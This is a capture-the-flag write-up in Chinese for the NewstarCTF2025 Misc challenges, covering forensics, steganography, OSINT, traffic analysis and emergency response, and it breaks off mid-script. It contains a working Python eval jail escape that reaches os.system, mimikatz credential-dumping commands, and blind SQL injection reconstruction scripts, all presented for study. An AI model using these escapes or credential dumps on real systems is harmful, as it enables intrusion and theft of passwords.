# NewstarCTF2025-Misc全解解析-先知社区

> **来源**: https://xz.aliyun.com/news/19240  
> **文章ID**: 19240

---

# Week1

### 我不要革命失败

> 题目内容：
>
> 小吉的机械革命笔记本又双叒叕蓝屏了！这次他不想再坐以待毙！他发来了他在C:WindowsMinidump的蓝屏文件，请你帮忙分析一下，让机革摆脱舍友的歧视。听说大伙看蓝屏日志都用的是WinDbg，操作也很简单，好像要敲什么!analyze -v?

```
flag{崩溃类型(即蓝屏显示的终止代码)_故障进程}
```

用winDbg分析附件给的dmp文件，使用`!analyze -v`命令即可查看到程序崩溃类型和崩溃进程





```
flag{CRITICAL_PROCESS_DIED_svchost.exe}
```

### MISC城邦-压缩术

> 题目内容：
>
> 欢迎挑战者们来到压缩术的考验关卡，本关考察压缩术的综合使用，请挑战者们通过6位密码门开始挑战吧！(要想使用压缩术，请先念咒语"abcd...xyz0123...789")

第一层题目提示6位密码爆破，得到密码ns2025



tips.txt中提示没有密码，应该是伪加密

直接zipcracker一把梭



得到flag.zip和key.txt，flag.zip里面也有一个key.txt，应该就是用bkcrack进行明文攻击了



得到key之后，用这个key生成一个删除密码之后的压缩包



打开压缩包即可获得flag

```
flag{You_have_mastered_the_zip_magic!}
```

​

### 前有文字，所以搜索很有用

> 题目内容：
>
> 欢迎来到文字的世界！这里的字符，要么以你未曾想象过的方式排列，要么你根本都“看”不见。但是没有关系，这里是线上赛，我们不断网，尽情冲浪吧！（ps：因为出题人fanbing，track2的隐藏数据 并 没 有 被 压 缩，请不要“-C”)

**Track1**

零宽字节隐写，按照他描述的隐写零宽字符选择对应字符并解密：



得到一段base64，base64解密结果：`flag{you_`

**Track2**

txt中的brainfuck解密结果为：`brainfuckisgooooood`

结合雪这个关键字，应该是snow解密。将咏雪.docx中的内容复制到fuck.txt中，用密钥解密


得到一段莫斯密码，解密结果为：`0V3RC4ME_`

**Track3**

字频统计，截止到}前即为第三部分flag



第三部分flag:`cH@1LenG3s}`

```
flag{you_0V3RC4ME_cH@1LenG3s}
```

​

### EZ\_fence

> 题目内容：
>
> rar发现一张残缺的照片竟然需要4颗钉子才能钉住，照片里面似乎藏着秘密。

打开得到一段奇怪的base64，结合题目fence猜测应该是栅栏密码，且需要4个钉子，应该为4栏。

解密得到：

```
rSvMwgdouWZVhAvoj79GhSvWztPoyLfPytvQwJjBnKz=
```

但base64解密仍不对，改一下图片的高度，看到下面有自定义base64表



得到自定义编码表：

```
8426513709qazwsxedcrfvtgbyhnujmikop1QWSAERFDTYHGUIKJOPLMNBVCXZ-_
```

得到base64解密结果为：`New5tar_zjuatrojee1mage5eed77yo#`

在图片尾巴处有一个rar压缩包，手动提取出来



里面有一个加密的flag.doc



用上面的密码解密，打开flag.doc即可得到flag

```
flag{y0u_kn0w_ez_fence_tuzh0ng}
```

### OSINT-天空belong

> 题目内容：
>
> OSINT是指通过公开可获取的信息源收集、分析和利用数据从互联网中提取有价值的信息，并最终将其转化为可操作的情报。
>
> 请挑战者们通过OSINT技术，获取你想要的信息吧！flag格式：flag{航班号\_照片拍摄时所在省份的省会城市\_拍摄设备的制造商}，制造商为英文（首字母大写）例：flag{AB1234\_北京市\_Huawei}

在图片中可以看到飞机的编号为：B-7198


查看该图片的exif信息，可以看到拍摄时间为25年8月17日，下午三点多。拍摄设备为`Xiaomi`



根据这个网站寻找航班：<https://zh.flightaware.com/live/flight/B7198/history/20250817/0530Z/ZSJN/ZGHA>

```
flag{UQ3574_武汉市_Xiaomi}
```

# Week2

### 日志分析-不敬者的闯入

> 题目内容：
>
> 在抗日战争暨世界反法西斯战争胜利80周年
>
> 前夕，城邦的临时工搭建了一个纪念网站，帮助人们恢复记忆。一些不法分子妄图破坏新世界的记忆，企图摧毁网站，幸好临时工及时止损关闭了该网站的服务，才保住了历史的记忆。请挑战者们通过保留的网站日志，帮助临时工找到不敬者的木马威胁，让临时工能保住这份来之不易的工作吧！

可以根据日志内容大部分响应都是403判断出应该是在爆破目录，找响应为200的请求



发现一个admin路由，访问发现有个webshell文件



点击访问即可看到传的马里面有flag



```
flag{e32c08e0-4816-44d5-b6f4-27630e5a2e51}
```

### 美妙的音乐

> 题目内容：
>
> 小明最近发现了一首好听的曲子，他把曲子发给你并邀请你一起欣赏，可是这个曲子似乎有什么不对劲的地方？

Audacity打开题目附件即可看到flag



```
flag{thi5_1S_m1Di_5tEG0}
```

### OSINT-威胁情报

> 题目内容：
>
> 城邦受到了未知APT组织的攻击，目前已解除威胁，但留下了恶意文件的hash值。为了以后的安全，请Newstar们进行调查，帮助城邦们完善威胁情报吧！flag格式：flag{apt组织名称\_通信C2服务器域名\_恶意文件编译时间(年-月-日)}；所有字母全部小写

直接将哈希放到微步上搜，即可找到全部的题目要求的内容



```
flag{kimsuky_alps.travelmountain.ml_2021-03-31}
```

### 星期四的狂想

> 题目内容：
>
> 怎么又是星期四，一到星期四群里就出现了各种稀奇古怪的星期四文案。最近 null 的服务器被人植入了星期四文案，让 null 甚是苦恼。好在他把流量截取下来了，你来帮他看看吧。

流量包丢随波逐流里面，发现有个数据包里面的cookie有段base64，直接解密但是不对



有个数据包里面写着加密规则



写个脚本逆一下：

```
import base64
import itertools
import string

token = "R2FYdDNaaHhtWlMwS21TR0szRVZxSUF4QVV5c0hLVzlWZXN0MllwVmdDOUJUTlBaVlM9PQ=="
hahahahahaha = base64.b64decode(token).decode('ascii')

chunks = [hahahahahaha[i:i+10] for i in range(0, len(hahahahahaha), 10)]

def rot13(s):
    return ''.join(chr((ord(c) - ord('A') + 13) % 26 + ord('A')) if 'A' <= c <= 'Z' else
                   chr((ord(c) - ord('a') + 13) % 26 + ord('a')) if 'a' <= c <= 'z' else c
                   for c in s)

def rev(s):
    return s[::-1]

# 尝试所有组合
for mask in itertools.product([0, 1], repeat=len(chunks)):
    candidate = []
    for i, m in enumerate(mask):
        if m == 0:
            candidate.append(rot13(chunks[i]))
        else:
            candidate.append(rev(chunks[i]))
    candidate_str = ''.join(candidate)
    try:
        # 严格base64解码
        decoded = base64.b64decode(candidate_str, validate=True)
        # 检查是否可打印ASCII且包含flag{
        if all(b in string.printable.encode() for b in decoded):
            text = decoded.decode('ascii', errors='ignore')
            if text.startswith('flag{') and '}' in text:
                print("Mask:", mask)
                print("Decoded:", text)
                break
    except:
        pass
```

```
flag{What_1S_tHuSd4y_Quickly_VIVO50}
```

### MISC城邦-NewKeyboard

> 题目内容：
>
> 欢迎挑战者们来到第二周的Misc考核，本关由手持keyboard的侍卫看守能量核心，请挑战者们通过分析侍卫发出的流量获取最终的flag吧！

题目给了两个流量包



第一个流量包的名字很奇怪，应该是要用来做某种映射的。

写个脚本提取一下数据包中的hid.data，然后根据是否按下shift建立普通映射和shift映射两个字典。然后将提取到的按键bit转换为对应的字符，按照前面的文件名做映射即可得到flag。

```
import subprocess
from pathlib import Path
from typing import Dict, List, Set, Tuple

REFERENCE_PCAP = Path("abcdefghijklmnopqrstuvwxyz1234567890-_!{}.pcapng")
TARGET_PCAP = Path("newkeyboard.pcapng")
REFERENCE_CHARS = "abcdefghijklmnopqrstuvwxyz1234567890-_!{}"


def extract_reports(pcap_path: Path) -> List[Set[int]]:
    """
    调用 tshark 抽取 usbhid.data 字段并转换成按键 bit 集合序列。

    Args:
        pcap_path: pcap文件路径

    Returns:
        包含每个报告中按键bit集合的列表
    """
    cmd = [
        "tshark",
        "-r", str(pcap_path),
        "-Y", "usbhid.data",
        "-T", "fields",
        "-e", "usbhid.data",
    ]

    try:
        output = subprocess.check_output(cmd, text=True, stderr=subprocess.DEVNULL)
    except subprocess.CalledProcessError as e:
        raise RuntimeError(f"tshark命令执行失败: {e}")

    reports = []
    for line in output.splitlines():
        line = line.strip()
        if not line:
            continue

        try:
            payload = bytes.fromhex(line)[1:]  # 跳过报告 ID
            bits = set()
            for byte_index, value in enumerate(payload):
                for bit in range(8):
                    if value & (1 << bit):
                        bits.add(byte_index * 8 + bit)
            reports.append(bits)
        except ValueError as e:
            print(f"警告: 无法解析行 '{line}': {e}")
            continue

    return reports


def build_mapping(reference_reports: List[Set[int]], charset: str) -> Tuple[Dict[int, str], Dict[int, str]]:
    """
    根据参考流量生成未按/按下 Shift 的键位映射。

    Args:
        reference_reports: 参考报告数据
        charset: 字符集

    Returns:
        包含未按Shift和按下Shift的键位映射的元组
    """
    unshift_map, shift_map = {}, {}
    prev = set()
    idx = 0

    for bits in reference_reports:
        pressed = bits - prev
        # 过滤掉修饰键(bit1代表左Shift)
        non_modifier_keys = [b for b in pressed if b != 1]

        if non_modifier_keys and idx < len(charset):
            key = non_modifier_keys[0]
            char = charset[idx]
            idx += 1

            if 1 in bits:  # 检查是否按下了Shift键
                shift_map[key] = char
            else:
                unshift_map[key] = char

        prev = bits

    return unshift_map, shift_map


def decode_reports(
        target_reports: List[Set[int]],
        unshift_map: Dict[int, str],
        shift_map: Dict[int, str]
) -> str:
    """
    使用映射表还原目标流量中的按键序列。

    Args:
        target_reports: 目标报告数据
        unshift_map: 未按Shift的键位映射
        shift_map: 按下Shift的键位映射

    Returns:
        解码后的字符串
    """
    prev = set()
    chars = []

    for bits in target_reports:
        pressed = bits - prev
        # 过滤掉修饰键
        non_modifier_keys = [b for b in pressed if b != 1]

        if non_modifier_keys:
            key = non_modifier_keys[0]

            if 1 in bits:  # 检查是否按下了Shift键
                chars.append(shift_map.get(key, f"<UNK_SHIFT_{key}>"))
            else:
                chars.append(unshift_map.get(key, f"<UNK_{key}>"))

        prev = bits

    return "".join(chars)


def main() -> None:
    """主函数，执行解码流程"""
    try:
        print("正在提取参考报告数据...")
        ref_reports = extract_reports(REFERENCE_PCAP)

        print("正在构建键位映射...")
        unshift_map, shift_map = build_mapping(ref_reports, REFERENCE_CHARS)

        print("正在提取目标报告数据...")
        target_reports = extract_reports(TARGET_PCAP)

        print("正在解码按键序列...")
        text = decode_reports(target_reports, unshift_map, shift_map)

        print("
解码结果:")
        print(text)

    except Exception as e:
        print(f"错误: {e}")
        return


if __name__ == "__main__":
    main()
```

```
flag{th1s_is_newkeyboard_y0u_get_it!}
```

# Week3

一个布尔盲注日志，直接拉到后面可以看到在最后爆破了flag，回显长度为6的是成功注出来的字符



写个脚本提取一下成功注入的内容

```
# 简单提取脚本
def simple_extract():
    with open('blindsql.txt', 'r', encoding='utf-8') as f:
        lines = f.readlines()

    # 提取响应长度为6的行
    result = [line for line in lines if '" 200 6' in line]

    # 保存结果
    with open('filtered_results.txt', 'w', encoding='utf-8') as f:
        f.writelines(result)

    print(f"已提取 {len(result)} 行到 filtered_results.txt")

    # 手动分析flag（需要查看提取后的文件）
    return result


# 执行
simple_extract()
```



然后将其中的ascii码转换成对应字符即可

```
def ascii_to_text(ascii_codes):
    """
    将ASCII码列表转换为文本
    """
    result = ""
    for code in ascii_codes:
        try:
            # 去除引号并转换为整数
            clean_code = code.strip("'")
            char = chr(int(clean_code))
            result += char
            print(f"ASCII {clean_code} -> '{char}'")
        except ValueError:
            print(f"错误: '{code}' 不是有效的ASCII码")

    return result

ascii_codes = [
    '102', '108', '97', '103', '123', '83', '81', '76', '95', '105',
    '110', '106', '101', '99', '116', '105', '111', '110', '95', '108',
    '111', '103', '115', '95', '97', '114', '101', '95', '118', '101',
    '114', '121', '95', '101', '97', '115', '121', '125'
]

print("开始转换ASCII码...")
print("=" * 40)

flag = ascii_to_text(ascii_codes)

print("=" * 40)
print(f"完整文本: {flag}")

# 保存到文件
with open('decoded_flag.txt', 'w', encoding='utf-8') as f:
    f.write(flag)
print("结果已保存到 decoded_flag.txt")
```

```
flag{SQL_injection_logs_are_very_easy}
```

### 区块链-以太坊的约定

> 题目内容：
>
> 城邦附近开了一家存储链子的工坊，快来看看吧！
>
> 本题由多个小问题组成，得到各个小问题答案后用下划线"\_"拼接即可
>
> 1.注册小狐狸钱包，并提交小狐狸钱包助记词个数
>
> 2.1145141919810 Gwei等于多少ETH （只保留整数）
>
> 3.查询此下列账号第一次交易记录的时间，提交年月日拼接，如20230820
>
> 0x949F8fc083006CC5fb51Da693a57D63eEc90C675
>
> 4.使用remix编译运行附件中的合约，将输出进行提交

1、小狐狸钱包助记词默认是`12`个单词。

2、1145141919810 Gwei等于多少ETH取整结果为`1145`

3、第一笔交易时间为：`20240614`

在这里可以查看

<https://sepolia.etherscan.io/txs?a=0x949F8fc083006CC5fb51Da693a57D63eEc90C675&p=2>



4、根据附件的代码可以看出来运行结果永远是：`solidity`

```
flag{12_1145_20240614_solidity}
```

### 内存取证-Windows篇

> 题目内容：
>
> 本关考验你内存取证本领，请考生携带好文具（kali虚拟机和Volatility2），做好准备，迎接挑战本题的flag由多个问题的答案组成，使用下划线"\_"将答案各部分连接，就能得到flag
>
> 1、恶意进程的外联ip:port
>
> 2、恶意进程所在的文件夹名称
>
> 3、用户的主机登录密码
>
> 4、电脑主机的名称
>
> 注意：涉及字母的部分统一小写，题目附件包含flag的举例，请做题人事先确认

查看所有进程的命令行

```
vol2 -f hellohacker.raw --profile=Win7SP1x64 cmdline
```

可以看到可疑文件：`svchost.exe`，正常是位于system32目录下的，这里这个却位于Temp目录下；并且缺少正常的命令行参数（-k xxx）



确定恶意文件所在文件夹：`Temp`

获取一下电脑主机名

```
vol2 -f hellohacker.raw --profile=Win7SP1x64 printkey -K "ControlSet001\Control\ComputerName\ComputerName"
```



得到电脑主机名：`ARISAMIK`

获取密码哈希

```
ol2 -f hellohacker.raw --profile=Win7SP1x64 hashdump
```

得到哈希值为（另外两个哈希值都是空的）：



```
3008c87294511142799dca1191e69a0f
```

md5解密得到密码为：`admin123`

接着找外联ip，直接用netscan插件

```
vol2.exe -f hellohacker.raw --profile=Win7SP1x64 netscan
```



得到找到进程2864的外联ip：

`125.216.248.74:11451`

```
flag{125.216.248.74:11451_temp_admin123_arisamik}
```

### jail-evil eval

> 题目内容：
>
> 邪恶的 evil 带来了 eval！想要拿到 flag 就得拿出真本事！“借助 help 的力量是不道德的！”evil 如是说到

题目过滤了`__`，使用拼接`_`的方式绕过

先找到所有子类

```
>>> print(eval("(1)."+("_"+"_")+"class"+("_"+"_")+"."+("_"+"_")+"mro"+("_"+"_")+"[1]."+("_"+"_")+"subclasses"+("_"+"_")+"()[:200]"))
[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>, <class 'builtin_function_or_method'>, <class 'callable_iterator'>, <class 'PyCapsule'>, <class 'cell'>, <class 'classmethod_descriptor'>, <class 'classmethod'>, <class 'code'>, <class 'complex'>, <class '_contextvars.Token'>, <class '_contextvars.ContextVar'>, <class '_contextvars.Context'>, <class 'coroutine'>, <class 'dict_items'>, <class 'dict_itemiterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_keys'>, <class 'mappingproxy'>, <class 'dict_reverseitemiterator'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_values'>, <class 'dict'>, <class 'ellipsis'>, <class 'enumerate'>, <class 'filter'>, <class 'float'>, <class 'frame'>, <class 'frozenset'>, <class 'function'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'instancemethod'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'list'>, <class 'longrange_iterator'>, <class 'int'>, <class 'map'>, <class 'member_descriptor'>, <class 'memoryview'>, <class 'method_descriptor'>, <class 'method'>, <class 'moduledef'>, <class 'module'>, <class 'odict_iterator'>, <class 'pickle.PickleBuffer'>, <class 'property'>, <class 'range_iterator'>, <class 'range'>, <class 'reversed'>, <class 'symtable entry'>, <class 'iterator'>, <class 'set_iterator'>, <class 'set'>, <class 'slice'>, <class 'staticmethod'>, <class 'stderrprinter'>, <class 'super'>, <class 'traceback'>, <class 'tuple_iterator'>, <class 'tuple'>, <class 'str_iterator'>, <class 'str'>, <class 'wrapper_descriptor'>, <class 'zip'>, <class 'types.GenericAlias'>, <class 'anext_awaitable'>, <class 'async_generator_asend'>, <class 'async_generator_athrow'>, <class 'async_generator_wrapped_value'>, <class '_buffer_wrapper'>, <class 'Token.MISSING'>, <class 'coroutine_wrapper'>, <class 'generic_alias_iterator'>, <class 'items'>, <class 'keys'>, <class 'values'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'hamt'>, <class 'sys.legacy_event_handler'>, <class 'InterpreterID'>, <class 'line_iterator'>, <class 'managedbuffer'>, <class 'memory_iterator'>, <class 'method-wrapper'>, <class 'types.SimpleNamespace'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'positions_iterator'>, <class 'str_ascii_iterator'>, <class 'types.UnionType'>, <class 'weakref.CallableProxyType'>, <class 'weakref.ProxyType'>, <class 'weakref.ReferenceType'>, <class 'typing.TypeAliasType'>, <class 'typing.Generic'>, <class 'typing.TypeVar'>, <class 'typing.TypeVarTuple'>, <class 'typing.ParamSpec'>, <class 'typing.ParamSpecArgs'>, <class 'typing.ParamSpecKwargs'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'BaseException'>, <class '_frozen_importlib._WeakValueDictionary'>, <class '_frozen_importlib._BlockingOnManager'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class 'winreg.PyHKEY'>, <class '_io.IncrementalNewlineDecoder'>, <class '_io._BytesIOBuffer'>, <class '_io._IOBase'>, <class 'nt.ScandirIterator'>, <class 'nt.DirEntry'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external.NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc._abc_data'>, <class 'abc.ABC'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'collections.abc.Iterable'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Buffer'>, <class 'collections.abc.Callable'>, <class '_winapi.Overlapped'>, <class 'os._wrap_close'>, <class 'os._AddedDllDirectory'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class '_distutils_hack._TrivialRe'>, <class '_distutils_hack.DistutilsMetaFinder'>, <class '_distutils_hack.shim'>, <class 'itertools.accumulate'>, <class 'itertools.batched'>, <class 'itertools.chain'>, <class 'itertools.combinations'>, <class 'itertools.compress'>, <class 'itertools.count'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.filterfalse'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools.islice'>, <class 'itertools.pairwise'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.starmap'>, <class 'itertools.takewhile'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'itertools.zip_longest'>, <class 'operator.attrgetter'>, <class 'operator.itemgetter'>, <class 'operator.methodcaller'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class 'collections._deque_iterator'>, <class 'collections._deque_reverse_iterator'>, <class 'collections._tuplegetter'>, <class 'collections._Link'>, <class 'types.DynamicClassAttribute'>, <class 'types._GeneratorWrapper'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.KeyWrapper'>]
```

在子类列表中找`<class 'os._wrap_close'>`，发现位于[139]

利用 `__init__.__globals__`来调用listdir，读取当前目录文件，发现flag

```
>>> print(eval("(1)."+("_"+"_")+"class"+("_"+"_")+"."+("_"+"_")+"mro"+("_"+"_")+"[1]."+("_"+"_")+"subclasses"+("_"+"_")+"()[139]."+("_"+"_")+"init"+("_"+"_")+"."+("_"+"_")+"globals"+("_"+"_")+"['listdir']('.')"))
['.bash_logout', '.bashrc', '.profile', 'flag', 'start.sh', 'jail.py']
```

用globals中的system读取flag即可：

```
>>> print(eval("(1)."+("_"+"_")+"class"+("_"+"_")+"."+("_"+"_")+"mro"+("_"+"_")+"[1]."+("_"+"_")+"subclasses"+("_"+"_")+"()[139]."+("_"+"_")+"init"+("_"+"_")+"."+("_"+"_")+"globals"+("_"+"_")+"['"+("s"+"y"+"s"+"t"+"e"+"m")+"']('cat ./flag')"))
flag{217cda95-1d34-4313-84d3-f7e69246bcee}
```



### 流量分析-S7的秘密

> 题目内容：
>
> 人们在虚拟大陆逐渐适应，为了更好的生活，城邦们正在大力发展第二产业。但是一个陈旧的机器突然接收到了信号，值班的工人们紧急捕获了信号发生后的信息，挑战者们可以帮助工业破译接收到的信息吗？请将信息放在flag{}内提交

wireshark过滤一下s7comm

```
(s7comm) && (s7comm.param.func == 0x05) && (s7comm.header.rosctr == 1)
```

提取所有请求的data里面的内容



结果是这个

```
IpOtatn!oITrm_i
```

根据西门子S7是个IOT设备先猜解IOT，剩下的!应该是结尾，\_用于分割单词，剩下的单词可以拼成Imortant和i

后面再拷打AI，得到IIOT这个单词，经过猜解得到flag：

```
flag{IIOT_important!}
```

# Week4

### 流量分析-听声辨位

> 题目内容：
>
> 在城邦外的流量海峡中，海豚们通过发出"ascii"音的大小来判断在集体流量游动的顺序。城邦捕获了海豚们集结出发时的声音，现在需要挑战者通过声音大小的判断来确定是哪些海豚出行

布尔盲注的流量，直接用tshark先提取http请求和响应长度，盲注成功的响应应该为1091

```
tshark -r "blindsql.pcapng" -Y "http" -T fields -e http.request.uri -e frame.len > http.txt
```

题目用的是ORD(MID(source,pos,1))>val

这种格式的payload进行的注入，可以看到当条件为真时，响应长度为1091，可以利用这个写个脚本获取注入内容



```
# -*- coding: utf-8 -*-

import re
from urllib.parse import unquote

# ====== 参数配置 ======
file_path = r"http.txt"   # 你的日志文件路径
TRUE_LEN = 1091           # True 响应长度
FALSE_LEN = 1124          # False 响应长度
# =======================


# === 工具函数 ===
def read_lines(path: str):
    """安全读取文件为行列表"""
    with open(path, 'r', encoding='utf-8', errors='ignore') as f:
        return f.readlines()


def robust_group_lines(raw_lines):
    """
    把原始行合并为逻辑块:
    - 以 '/' 开头的行视为 URL 起点
    - 非数字且不以 '/' 开头的行归入上一个 URL（折行）
    - 数字行单独记录 (请求长度或响应长度)
    """
    entries = []
    cur_url, cur_nums = None, []

    for raw in raw_lines:
        line = raw.strip()
        if not line:
            continue

        if line.startswith('/'):
            # 新 URL 块开始
            if cur_url is not None:
                entries.append((cur_url, cur_nums))
                cur_nums = []

            parts = re.split(r'\s+', line)
            nums = []
            while parts and parts[-1].isdigit():
                nums.insert(0, parts.pop())
            cur_url = " ".join(parts)
            cur_nums = nums[:]

        elif line.isdigit():
            # 纯数字行（响应长度）
            cur_nums.append(line)

        else:
            # 折行拼接
            cur_url = (cur_url or '') + line

    if cur_url is not None:
        entries.append((cur_url, cur_nums))
    return entries


def extract_comparisons_from_url(url_decoded):
    """
    提取 URL 中的比较表达式:
    ORD(MID(...,pos,1)) > val
    """
    results = []
    pattern = re.compile(
        r"ORD\s*\(\s*MID\s*\(\s*(.+?)\s*,\s*(\d+)\s*,\s*1\s*\)\s*\)\s*>\s*(\d+)",
        flags=re.IGNORECASE,
    )
    for m in pattern.finditer(url_decoded):
        source = m.group(1)
        pos, val = int(m.group(2)), int(m.group(3))
        src_key = source.strip()
        if len(src_key) > 140:
            src_key = src_key[:60] + " ... " + src_key[-60:]
        results.append((src_key, pos, val))
    return results


def analyze(entries):
    """解析所有 entries 并统计上下界"""
    groups = {}
    for url, nums in entries:
        decoded = unquote(url)
        comps = extract_comparisons_from_url(decoded)
        if not comps:
            continue

        for src, pos, val in comps:
            key = src
            resp_len = int(nums[-1]) if nums else None
            if resp_len is None:
                m = re.findall(r'\d+', decoded)
                if m:
                    resp_len = int(m[-1])
                else:
                    continue

            is_true = (resp_len == TRUE_LEN)

            groups.setdefault(key, {})
            pos_dict = groups[key].setdefault(pos, {'low': 32, 'high': 126})
            if is_true:
                pos_dict['low'] = max(pos_dict['low'], val + 1)
            else:
                pos_dict['high'] = min(pos_dict['high'], val)
    return groups


def render(groups):
    """格式化输出结果"""
    report_lines = []
    for key, posmap in groups.items():
        report_lines.append("=" * 80)
        report_lines.append(f"[GROUP] {key[:100]}")

        ascii_table = []
        built = []

        for pos in sorted(posmap.keys()):
            low, high = posmap[pos]['low'], posmap[pos]['high']
            if low == high:
                ch = chr(low)
            elif low > high:
                ch = '?'
            else:
                ch = chr(low) if 32 <= low <= 126 else '?'

            ascii_table.append((pos, low, high, ch))
            built.append(ch if ch != '?' else '?')

        # 输出详细表
        report_lines.append("Pos\tLow\tHigh\tChar")
        for pos, low, high, ch in ascii_table:
            report_lines.append(f"{pos:<4}\t{low:<4}\t{high:<4}\t{ch}")

        # 输出猜测字符串
        guessed = "".join(built)
        report_lines.append(f"
[+] Guessed string: {guessed}")

        # 输出 ASCII 对照表
        ascii_pairs = [f"{ord(c)}({c})" if c != '?' else '?' for c in built]
        report_lines.append(f"[+] ASCII map: {' '.join(ascii_pairs)}
")

    return "
".join(report_lines)


# === 主入口 ===
if __name__ == "__main__":
    raw = read_lines(file_path)
    entries = robust_group_lines(raw)
    groups = analyze(entries)
    output = render(groups)
    print(output)

```



```
flag{blind_injection_Re@lly_Biggg!}
```

### 应急响应-初识

> 题目内容：
>
> 欢迎来到第四周。在前三周的挑战中，你已经掌握了基础的日志分析、流量分析、osint能力，请挑战者们集中所有力量，打开这扇应急响应大门吧！
>
> 城邦的图片托管服务平台遭受到恶意攻击，请挑战中们协助临时工清理处置，完成报告。
>
> 用户名：Administrator 密码：Newst@r
>
> flag{木马连接密码\_创建账号工具发布时间(年-月-日)\_影子用户密码}

在注册表里面发现一个隐藏用户：`nEw5tar$`



在虚拟机里装个mimikatz，输入以下命令

```
privilege::debug
token::elevate
lsadump::sam
```

获取用户密码哈希：`7e5c358b43a26bddec105574bee24eef`

解密结果为：`Ns2025`



在隐藏用户桌面发现创建用户程序，这个时间为



运行一下，然后根据github地址找



发布日期为：`2022-01-18`



在推荐项目这里这个\_\_.php点进去发现了上传密码：`rebeyond`



```
flag{rebeyond_2022-01-18_Ns2025}
```

### 混乱的网站

> 题目内容：
>
> 网站还没搭建完成就遭到了致命的攻击。我的代码怎么乱七八糟的，挑战者们能帮我看看代码里隐藏了什么吗
>
> flag格式：flag{flag1\_flag2}

F12可以看到该web页面引用一个function.js



是一段混淆的代码



丢给ai解混淆一下

```
(function(){
var encodedUrls = [
    'aHR0cHM6Ly9wYXN0ZWJpbi5jb20vcmF3L1pYVnliVFJ2',
    'aHR0cHM6Ly9wYXN0ZWJpbi5jb20vcmF3L1pYVnliVFJ3', 
    'aHR0cHM6Ly9wYXN0ZWJpbmMuY29tL3Jhdy9aWFZ5YlRSeg==',
    'aHR0cHM6Ly9wYXN0ZWJpbi5jb20vcmF3L1pYVnliVFJ4',
    'aHR0cHM6Ly9wYXN0ZWJpbi5jb20vcmF3L1pYVnliVFJ4'
];
var encodedVars = [
    'Zm9yZWFjaA==',
    'Zmlyc3Q=',
    'anF1ZXJ5',
    'anM=',
    'aG93'
];

function getArrayItem(array, index){
    return array[(index * 7 + 3) % array.length]
}

function base64Decode(encodedStr){
    if(typeof atob === 'function'){
        try{
            return atob(encodedStr)
        }catch(e){}
    }
    var base64Chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';
    var outputStr = '';
    encodedStr = encodedStr.replace(/[^A-Za-z0-9\+\/\=]/g, '');
    for(var i = 0; i < encodedStr.length;){
        var char1 = base64Chars.indexOf(encodedStr.charAt(i++));
        var char2 = base64Chars.indexOf(encodedStr.charAt(i++));
        var char3 = base64Chars.indexOf(encodedStr.charAt(i++));
        var char4 = base64Chars.indexOf(encodedStr.charAt(i++));
        var byte1 = (char1 << 2) | (char2 >> 4);
        var byte2 = ((char2 & 15) << 4) | (char3 >> 2);
        var byte3 = ((char3 & 3) << 6) | char4;
        outputStr += String.fromCharCode(byte1);
        if(char3 !== 64) outputStr += String.fromCharCode(byte2);
        if(char4 !== 64) outputStr += String.fromCharCode(byte3);
    }
    try{
        return decodeURIComponent(escape(outputStr))
    }catch(e){
        return outputStr
    }
}

window._return = function(){
    var selectedUrl = getArrayItem(encodedUrls, 2);
    var selectedVar = getArrayItem(encodedVars, 2);
    var decodedUrl = base64Decode(selectedUrl);
    var decodedVar = base64Decode(selectedVar);
    window.location.href = decodedUrl;
    try{
        window.$$ = window[decodedVar]
    }catch(e){
        window.$$ = undefined
    }
}
})();
```

直接让ai搓个解题脚本，放到控制台运行即可

```
(function() {
    console.log("=== 开始解题 ===");
    
    // 复制原代码中的 Base64 解码函数
    function _b64decode(encodedStr) {
        if (typeof atob === 'function') {
            try { 
                return atob(encodedStr); 
            } catch (e) {}
        }
        var base64Chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';
        var output = '';
        encodedStr = encodedStr.replace(/[^A-Za-z0-9\+\/\=]/g, '');
        for (var i = 0; i < encodedStr.length; ) {
            var enc1 = base64Chars.indexOf(encodedStr.charAt(i++));
